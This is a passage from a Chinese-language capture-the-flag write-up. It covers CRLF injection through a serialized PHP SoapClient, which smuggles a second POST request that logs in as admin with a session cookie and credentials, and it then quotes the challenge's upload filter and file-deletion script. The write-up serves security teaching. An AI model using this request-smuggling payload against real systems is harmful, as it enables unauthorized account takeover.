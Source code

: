 可以发现当第一个请求的`Connection: Keep-Alive`的时候，接着的那个请求也会被响应。也就是说在一次HTTP连接中可以同时又多个HTTP请求头和请求体，但是当前请求被响应的前提是，前一个请求有`Connection: Keep-Alive` 。 （测试的时候需要注意`Content-Length`字段，需把burp中的`repeater->update content-length`选项关掉）

**这里就也给了我们一个很重要的启示，如果我们遇到一个GET型的CRLF注入，但是我们需要的却是一个POST类型的请求，就可以用这种方式，在第一个请求中注入一个`Connection: Keep-Alive`,然后接着往下注入第二个请求，就可以实现我们的目的。**

这里写一下payload：

```php
$uri = "http://www.baidu.com/?test=blue\r\nContent-Length: 0\r\n\r\n\r\nPOST /index.php?action=login HTTP/1.1\r\nHost: 127.0.0.1\r\nCookie: PHPSESSID=52m5ugohiki56gds9c6t71rj92\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 45\r\nConnection: Close\r\n\r\nusername=admin&password=nu1ladmin&code=435137\r\n\r\n\r\n";
$location = "http://127.0.0.1/test";  //注意这里一定不要写 index.php?action=login,否则第一个请求会改变验证码的值
$event = new SoapClient(null,array('location'=>$location,'uri'=>$uri));
echo  urlencode(serialize($event));
```

![](./img/6.png)

这两种方法都可以拿到管理员权限。

### 0x5利用bash的特性，绕过删除

拿到管理员权限之后，就可以上传了，但是有个坑点：

```php
$file_true_name = str_replace('.','',pathinfo($file['name'])['filename']);
        $file_true_name = str_replace('/','',$file_true_name);
        $file_true_name = str_replace('\\','',$file_true_name);
        $file_true_name = $file_true_name.time().rand(1,100).'.jpg';
        $move_to_file = $user_path."/".$file_true_name;
        if(move_uploaded_file($uploaded_file,$move_to_file)) {
            if(stripos(file_get_contents($move_to_file),'<?php')>=0)
                system('sh /home/nu1lctf/clean_danger.sh');
            return $file_true_name;
        }
```

```bash
# /home/nu1lctf/clean_danger.sh
cd /app/adminpic/ 
rm *.jpg 
cd /var/www/html/adminpic/ 
rm * 
```
